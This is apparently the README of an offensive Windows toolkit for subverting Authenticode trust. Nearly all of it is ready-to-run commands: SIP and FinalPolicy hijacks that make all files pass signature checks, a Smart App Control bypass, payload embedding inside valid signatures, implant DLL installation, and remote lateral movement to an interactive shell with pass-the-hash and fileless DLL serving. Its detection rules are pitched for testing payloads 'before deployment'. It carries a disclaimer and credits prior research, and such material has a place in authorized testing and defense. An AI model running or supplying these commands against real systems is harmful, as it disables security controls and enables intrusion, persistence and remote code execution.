




# TrustMeBro

Authenticode signature manipulation toolkit for Red Team operations and security research. Covers signature stealing, metadata cloning, SIP hijacking across 19 file types, WinVerifyTrust FinalPolicy bypass, PKCS#7 payload embedding, SIP execution surface implants, and analyst-triggered persistence via OID handlers.

Available in Python (cross-platform) and C++ (Windows native).

> **Registry changes are cached per-process.** After running `hijack`, `sip-exec install`, or `clean`, you must **log out and log back in** or start a new process to see the effect. If `signtool verify` or `Get-AuthenticodeSignature` still shows the old result, close the process and open a fresh one. FinalPolicy and SIP hijack changes survive reboot.

## Repository Structure

```
TrustMeBro/
├── TrustMeBro/                         C++ native tool
│   ├── main.cpp                        Subcommand-based CLI
│   ├── steal.h                         Signature stealing, SIP hijack, FinalPolicy
│   ├── pkcs7_embed.h                   Zero-dependency ASN.1 DER embed/extract
│   └── TrustMeBro.inf                  INF-based SIP hijack (right-click Install)
├── SigStash/                           Payload extraction from signed PEs
│   ├── loader.cpp                      Argument-based loader (reads a carrier file)
│   └── stub.c                          Self-extracting stub (reads its own PE)
├── sipexec/                            Lateral movement via WVT FinalPolicy hijack
│   ├── sipexec.py                      Orchestrator (upload, hijack, trigger, shell)
│   ├── sipexec_payload.c              Payload DLL source
│   └── sipexec_payload_signed.dll      Pre-built signed payload
├── tools/
│   └── FormatGhost/                    CryptDllFormatObject persistence tool
├── detection/                          YARA and Sigma detection rules
├── bin/                                Pre-compiled Windows binaries
├── TrustMeBro.py                       Python cross-platform tool
├── LICENSE
└── README.md
```

---

## How It Works

### SigFlip (CVE-2013-3900), for comparison
<p align="center">
  
</p>

### SigStash, Direct Mode
<p align="center">
  
</p>

### SigStash, Camouflage Mode
<p align="center">
  
</p>

---

## Smart App Control Bypass (Win11)

TrustMeBro includes a SIP hijack for Windows 11 Smart App Control (SAC). This is a separate GUID not included in the default hijack set. You must opt in with `--sac`.

**GUID:** `{18B3C141-AE0D-40F9-9465-E542AFC1ABC7}`

**What SAC does:** Smart App Control blocks unsigned or untrusted executables from running on Win11 machines with enforcement enabled. It checks the SIP verification result via `SrpCheckSmartlockerEAandProcessToken` in wintrust.dll.

**What the bypass does:** Redirects the SAC SIP's `CryptSIPDllVerifyIndirectData` to `ntdll!DbgUiContinue`. SAC's verification returns success for all files. Unsigned, unknown executables run without the "Smart App Control blocked an app" prompt.

**What was observed during testing:**
- Before hijack: SAC correctly blocked an unsigned EXE
- After hijack + reboot: the unsigned EXE ran, MessageBox displayed
- SAC settings UI showed "On" during the bypass. Enforcement was silently disabled at the SIP level.

**How it was found:** Reverse engineered from Win11 24H2 wintrust.dll via Ghidra. The GUID sits in the builtin SIP table at `.rdata` offset `0x62410`. Cross-references reveal three kernel EAs: `$Kernel.Smartlocker.OriginClaim`, `$Kernel.Purge.Smartlocker.Valid`, `$Kernel.Smartlocker.Hash`.

**Usage:**

```cmd
:: C++ (local)
TrustMeBro.exe hijack --sip-types PE --sac

:: Python (remote)
python3 TrustMeBro.py hijack 10.0.0.1 -u Admin -p Pass --sac

:: Python (local)
python3 TrustMeBro.py hijack --local --sac

:: Clean
TrustMeBro.exe hijack --clean
```

The `probe` command reports whether SAC is active on the target:
```
TrustMeBro.exe probe
  Smart App Control:       YES    <-- SAC is enforcing
```

> **Win11 only.** This GUID does not exist on Win10 or Server 2019. Using `--sac` on those systems writes a key that has no effect.

**MITRE:** T1553.003 (Subvert Trust Controls: SIP and Trust Provider Hijacking) + T1562.001 (Impair Defenses: Disable or Modify Tools)

---

## C++ Usage


### steal

Steal signature and metadata from a donor PE. File operations only, no registry changes.

```cmd
TrustMeBro.exe steal explorer.exe agent.exe
TrustMeBro.exe steal explorer.exe agent.exe --clone
```

After stealing, the signature will not validate until you run `hijack` or `--finalpolicy`.

### hijack

Install SIP or FinalPolicy persistence on the local machine. Requires admin.

> **Log out and log back in** after running hijack, or open a new process. SIP DLLs are cached in each process at first use. FinalPolicy and SIP hijack survive reboot.

```cmd
:: SIP hijack (default: PE, PowerShell, MSI)
TrustMeBro.exe hijack --sip-types PE,PowerShell,MSI

:: All 17 standard SIP types
TrustMeBro.exe hijack --sip-types all

:: Include Smart App Control (Win11)
TrustMeBro.exe hijack --sip-types all --sac

:: All 19 SIP GUIDs
TrustMeBro.exe hijack --all-sips

:: FinalPolicy bypass (system-wide, all files pass signature checks)
TrustMeBro.exe hijack --finalpolicy

:: Custom trust provider GUID (evades detection on Authenticode GUID)
TrustMeBro.exe hijack --custom-provider {GUID}

:: WOW64-only (hijack 32-bit callers, leave 64-bit registry clean)
TrustMeBro.exe hijack --sip-types all --wow64-only

:: Reverse any hijack with --clean
TrustMeBro.exe hijack --clean
TrustMeBro.exe hijack --finalpolicy --clean
TrustMeBro.exe hijack --custom-provider {GUID} --clean

:: Preview without writing
```

### embed

Embed payload into a signed PE's PKCS#7 signature. The Authenticode signature remains valid.

```cmd
TrustMeBro.exe embed payload.bin signed.exe output.exe
TrustMeBro.exe embed payload.bin signed.exe output.exe --camouflage
TrustMeBro.exe embed payload.bin signed.exe output.exe --oid 1.3.6.1.4.1.55555.1.1
```

### extract

Extract embedded payload from a signed PE.

```cmd
TrustMeBro.exe extract output.exe recovered.bin
TrustMeBro.exe extract output.exe recovered.bin --camouflage
```

### sip-exec

Install, remove, or list payload DLLs on the SIP execution surface.

> **The payload DLL loads in the next process that calls WinVerifyTrust.** Log out and log back in, or start a new verification process, to trigger it.

Named GUID aliases: `pe`, `ps1`, `jscript`, `vbscript`, `wsf`, `cab`, `catalog`, `appx`, `appx-bundle`, `msi`, `ctl`, `esd`, `sac`

```cmd
:: Install implant
TrustMeBro.exe sip-exec install --dll C:\Temp\implant.dll --guid pe

:: Remove implant
TrustMeBro.exe sip-exec remove --guid pe
TrustMeBro.exe sip-exec --clean --guid pe

:: List all registered SIP triggers
TrustMeBro.exe sip-exec list

:: Preview
```

### probe

Query local Code Integrity enforcement state. No writes. No admin required.

```cmd
TrustMeBro.exe probe
```

Reports: CI enabled, test-signing, UMCI, debug mode, flight signing, HVCI, HVCI strict, Smart App Control, audit mode.

### clean

Remove persistence artifacts. Requires at least one scope flag.

> **Log out and log back in** after cleanup. Already-running processes retain cached values.

```cmd
TrustMeBro.exe clean --sip
TrustMeBro.exe clean --finalpolicy
TrustMeBro.exe clean --custom-provider {GUID}
TrustMeBro.exe clean --all
```

---

## Python Usage

The Python tool operates **remotely by default** (via Impacket for registry operations). Add `--local` to run on the local Windows machine using `winreg`.

File operations (steal, embed, extract) always run locally on whatever machine the script is on.

Requirements: Python 3.10+, `asn1crypto` (for embed/extract), `objcopy` (for metadata cloning), `impacket` (for remote hijack).

```bash
pip install asn1crypto
```

### steal

```bash
python3 TrustMeBro.py steal -s explorer.exe -t agent.exe
python3 TrustMeBro.py steal -s explorer.exe -t agent.exe --clone
```

### hijack (remote)

> **Target must log out and log back in** or start a new process to see the changes.

```bash
# SIP hijack (default: PE, PowerShell, MSI)
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass

# Pick specific SIP types
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --sip-types PE,VBScript,JScript

# All 17 standard SIPs
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --sip-types all

# All 19 (including SAC + Win11)
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --all-sips

# Smart App Control only (Win11)
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --sac

# FinalPolicy hijack
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --action finalpolicy

# Custom trust provider
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --action custom-provider

# WOW64-only
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --wow64-only

# Reverse
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --action clean
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --action finalpolicy-clean
python3 TrustMeBro.py hijack 192.168.1.10 -u Admin -p Pass --action custom-provider-clean --provider-guid {GUID}

# Preview
```

### hijack (local)

Run on the local Windows machine. No IP or credentials needed.

```bash
python3 TrustMeBro.py hijack --local --action hijack
python3 TrustMeBro.py hijack --local --action finalpolicy
python3 TrustMeBro.py hijack --local --action clean
python3 TrustMeBro.py hijack --local --sip-types all --sac
```

### embed / extract

```bash
python3 TrustMeBro.py embed -s signed.exe -p payload.bin -o output.exe
python3 TrustMeBro.py embed -s signed.exe -p payload.bin -o output.exe --camouflage
python3 TrustMeBro.py embed -s signed.exe -p payload.bin -o output.exe --signer-index 0
python3 TrustMeBro.py extract -s output.exe -o recovered.bin
python3 TrustMeBro.py extract -s output.exe -o recovered.bin --camouflage
```

### sip-exec

```bash
python3 TrustMeBro.py sip-exec --dll "C:\Temp\implant.dll"
python3 TrustMeBro.py sip-exec --dll "C:\Temp\implant.dll" --guid pe
python3 TrustMeBro.py sip-exec --clean --guid pe
```

### INF-based SIP Hijack

Quick local hijack without running the EXE:
```cmd
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 .\TrustMeBro\TrustMeBro.inf
```

---

## Beacon Object Files (Cobalt Strike + Adaptix)

8 BOFs in a separate repo: [TrustMeBOF](https://github.com/KriyosArcane/TrustMeBOF)

```bash
git clone https://github.com/KriyosArcane/TrustMeBOF.git
cd TrustMeBOF && ./setup.sh
```

---

## SigStash (Payload Loader and Self-Extracting Stub)

### Loader (`SigStash/loader.cpp`)

Takes a carrier PE path as an argument. Supports direct OID and camouflage mode.

```cmd
SigStashLoader.exe carrier.exe
SigStashLoader.exe carrier.exe --camouflage
SigStashLoader.exe carrier.exe --exec
```

### Self-Extracting Stub (`SigStash/stub.c`)

Reads its own PE from disk. Writes payload to `%TEMP%\sigstash_out.bin`. No arguments needed.

```
1. Compile stub (or with -DCAMOUFLAGE_MODE=1)
2. Sign with osslsigncode or signtool
3. Embed: python3 TrustMeBro.py embed -s signed_stub.exe -p payload.bin -o final.exe
4. Run final.exe on target
```

---

## SIPExec (Lateral Movement)

Remote command execution via WinVerifyTrust FinalPolicy hijack. Stages a payload DLL on the target, hijacks the trust provider registry via WMI, triggers a WMI provider load that invokes WVT, and gets a shell over a named pipe inside `wmiprvse.exe`. No new process is created — code runs inside the existing WMI provider host.

### SIP Execution Surface
<p align="center">
  
</p>

### SIPExec Lateral Movement Flow
<p align="center">
  
</p>

**MITRE:** T1553.003 (SIP and Trust Provider Hijacking) + T1047 (WMI) + T1021.002 (SMB)

```bash
# One-shot command
python3 sipexec/sipexec.py 'DOMAIN/user:password@target' whoami

# Interactive shell (runs inside wmiprvse.exe)
python3 sipexec/sipexec.py 'DOMAIN/user:password@target'

# Pass the hash
python3 sipexec/sipexec.py -hashes :NTHASH 'DOMAIN/user@target'

# Fileless — serve DLL over UNC, nothing written to target disk
sudo python3 sipexec/sipexec.py -serve -listen 10.0.0.5 'user:pass@target'
```

See [`sipexec/README.md`](sipexec/README.md) for build instructions and all options.

---

## FormatGhost (Standalone Tool)

Standalone at `tools/FormatGhost/`. Registers a DLL as a `CryptDllFormatObject` handler. The DLL loads when `certutil -dump` or any cert UI parses a PE with the registered OID. Requires admin. Requires user interaction to trigger. See `tools/FormatGhost/README.md`.

---

## Experimental

Research prototypes. Not production-ready.

- `experimental/publisher-spoof/` generates self-signed certs with chosen CN for publisher name spoofing.
- `experimental/dual-signerinfo/` documents kernel vs user-mode SignerInfo parser divergence (docs only).

---

## Detection Rules

YARA and Sigma rules in `detection/`. Test your payloads against these before deployment.

| File | Format | Detects |
|---|---|---|
| `trustmebro_sip_hijack.yar` | YARA | SIP hijack loaders and registry exports with DbgUiContinue |
| `trustmebro_sip_hijack_registry.sigma` | Sigma | SIP provider registry modification |
| `trustmebro_finalpolicy_hijack.sigma` | Sigma | FinalPolicy under non-standard action GUID |
| `trustmebro_sigstash_embed.yar` | YARA | SigStash tooling and signed PEs with large WIN_CERTIFICATE |

---

## Building from Source

```bash
# TrustMeBro main tool
x86_64-w64-mingw32-g++ -std=c++17 -O2 -o bin/TrustMeBro.exe TrustMeBro/main.cpp -lshlwapi

# SigStash loader
x86_64-w64-mingw32-g++ -std=c++17 -O2 -o bin/SigStashLoader.exe SigStash/loader.cpp

# SigStash self-extracting stub
x86_64-w64-mingw32-gcc -O2 -s -o bin/SigStashStub.exe SigStash/stub.c -lkernel32
x86_64-w64-mingw32-gcc -O2 -s -DCAMOUFLAGE_MODE=1 -o bin/SigStashStubCamo.exe SigStash/stub.c -lkernel32

# SIPExec payload DLL
x86_64-w64-mingw32-gcc -shared -O2 -Wall -o sipexec/sipexec_payload.dll sipexec/sipexec_payload.c

# FormatGhost DLL
cd tools/FormatGhost && make
```

No external dependencies for C++ tools.

---

## SIP GUID Reference

Full 19-GUID map with hijack results, handler DLLs, and file-type detection methods: [docs/SIP_COMPLETE_MAP.md](docs/SIP_COMPLETE_MAP.md)

---

## Disclaimer

This tool is for educational purposes and authorized security testing only. Misuse to attack systems without consent is illegal. The authors are not responsible for damage caused by this software.

## Credits

- [SigFlip](https://github.com/med0x2e/SigFlip) by med0x2e. Payload embedding via certificate table padding (CVE-2013-3900).
- [SignatureKid](https://github.com/dslee2022/SignatureKid) by David Lee. Signature stealing research.
- [MetaTwin](https://github.com/threatexpress/metatwin) by ThreatExpress. Binary metadata cloning.
- Matt Graeber. SIP and Trust Provider research documenting the WVT hijack attack surface.
